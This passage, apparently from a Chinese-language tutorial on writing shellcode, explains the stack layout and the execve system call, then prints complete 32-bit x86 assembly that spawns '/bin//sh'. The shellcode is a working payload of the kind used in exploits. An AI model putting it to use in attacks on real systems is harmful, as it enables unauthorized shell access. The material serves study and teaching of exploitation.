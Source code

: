 <img src="/upload/img/image-20220411122843798.png" alt="image-20220411122843798" style="zoom:33%;" />

此时栈中的情况就是这样，/bin/sh与/bin//sh的效果一样，至于为什么要存入字符串的时候，要反着写，在64位汇编编写shellcode的时候，已经解释过了，这里就不再重复。

最后是

```assembly
xor eax,eax
push 11
pop eax
int 0x80
```

现在是把系统调用号存进去并且进行了系统调用

最后把这三部分结合一下效果如下。

```assembly
xor ecx,ecx
xor edx,edx
xor ebx,ebx 
push ebx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor eax,eax
push 11
pop eax
int 0x80
```
